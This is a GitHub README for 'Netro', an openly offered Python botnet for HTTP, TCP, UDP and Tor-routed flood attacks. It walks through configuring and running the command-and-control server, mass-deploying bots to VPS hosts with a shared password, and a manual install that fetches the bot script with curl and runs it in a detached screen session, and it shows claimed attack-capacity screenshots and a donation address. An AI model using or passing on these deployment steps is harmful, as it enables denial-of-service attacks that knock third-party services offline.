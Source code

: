 # Netro
An EXPERIMENTAL centralized Python botnet that currently supports HTTP, TCP and UDP flood attacks.


## Table Of Contents
- [Requirements](https://github.com/lilmond/Netro?tab=readme-ov-file#requirements)
- [Latest Updates](https://github.com/lilmond/Netro?tab=readme-ov-file#latest-updates)
- [CNC Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#cnc-installation)
  - [Windows 10 Source Code Download](https://github.com/lilmond/Netro?tab=readme-ov-file#for-windows-users)
  - [Linux Source Code Download](https://github.com/lilmond/Netro?tab=readme-ov-file#for-linux-users)
  - [Setting Up Configuration](https://github.com/lilmond/Netro?tab=readme-ov-file#setting-configuration)
  - [Preparing The CNC](https://github.com/lilmond/Netro?tab=readme-ov-file#preparing-cnc)
- [Bot Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#bot-installation)
  - [Automatic Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#automatic-installation)
  - [Manual Installation](https://github.com/lilmond/Netro?tab=readme-ov-file#manual-installation)
- [Discord / Buy Me A Coffee](https://github.com/lilmond/Netro?tab=readme-ov-file#etc)


![image](https://github.com/user-attachments/assets/0995d4df-27ab-428d-b548-a3f17e903ae4)

Some powerproof (1m hrs capped):

![image](https://github.com/user-attachments/assets/4b6cbeee-9dcb-4fd1-ad9e-4b74b4bc62ea)


# Requirements
- 1 VPS for CNC (please prefer a high-end)
- 1 or as many as you want **Ubuntu 24.04** VPS to deploy some bots. Note that they all must have the same password for the [automatic installation method](https://github.com/lilmond/Netro?tab=readme-ov-file#automatic-installation).
- Basic understanding in coding.

# Latest Updates
- Added Tor-TCP, Tor-HCF, Tor-POST and Tor-GET method.


# CNC Installation

Please prefer **Ubuntu 24.04** as your bot servers.

Install the source code into your computer (not in the server), you can however, if you know how to use Linux terminal text editors such as **vim** or **nano**. Any is preferable.

### For Windows Users
You may download the source code via the ZIP file.

![image](https://github.com/user-attachments/assets/32c7b125-d1f3-4f23-a8ce-8d09ecaf7674)


### For Linux Users
For Linux users, you may download the source code via terminal using **git** command. You may install **git** into your system and download **Netro**'s source code using the following commands below:
```bash
sudo apt install git -y
git clone https://github.com/lilmond/Netro
cd ./Netro
```

### Setting Configuration

You may now edit **cnc_config.json**. You have two options, either use a text editor GUI such as **VS Code** or via terminal using **vim** or **nano**.

Replace the **IP**'s value to your VPS server's public IP address where you will install your **CNC** on.
```json
{
    "IP": "68.136.174.102",
    "PORT": 4444
}
```

### Preparing CNC
Now, you can upload **netro_cnc.py** and **cnc_config.json** into your VPS.

You can do this using **scp** command. However, if you have **MobaXterm** installed, you may just log into your SSH and drag-and-drop both of the files into **MobaXterm**'s server file manager.

Using scp command:
```bash
scp netro_cnc.py cnc_config.json root@"cnc server ip":
```

Replace the "cnc server ip" into your CNC server's public IP, and remove the double quotes.

You may then log into your VPS and run the CNC script.
```bash
python3 netro_cnc.py
```

Great, now that you have the CNC server, you can jump into deploying the bots.


# Bot Installation
There are two methods to install the bot, either automatically or manually.

## Automatic Installation
In your computer files, open the bot_installer folder or **cd** into it:
```bash
cd ./bot_installer
```

Edit **bot_servers.txt**, write down the IP address of the VPS you're deploying the bot into.

Edit **bot_password.txt**, write down the password of your VPS. Your servers must have the same password if you're doing this on multiple servers.

Run **bot_installer.py**:
````bash
python3 bot_installer.py
````

## Manual Installation
Log into your SSH server and execute the following commands:
```bash
# Edit your CNC IP here
echo '{"IP": "53.63.182.235", "PORT": 4444}' > cnc_config.json

curl https://raw.githubusercontent.com/lilmond/Netro/refs/heads/main/netro_bot.py > netro_bot.py
curl https://raw.githubusercontent.com/lilmond/Netro/refs/heads/main/useragents.txt > useragents.txt
curl https://raw.githubusercontent.com/lilmond/Netro/refs/heads/main/bot_manual_requirements.txt > bot_manual_requirements.txt
sudo apt update -y && sudo apt upgrade -y
sudo apt install tor -y
sudo apt install python3.12-venv -y
python3 -m venv venv
source venv/bin/activate
pip install -r bot_manual_requirements.txt
sudo service tor start
screen -d -m python netro_bot.py
```


# Etc
Discord: https://discord.com/invite/Bnf3e8pkyj

Buy me a coffee via Bitcoin: 17nXfqRRiSGDpx1XEh3veHA6gyCLAktFk9
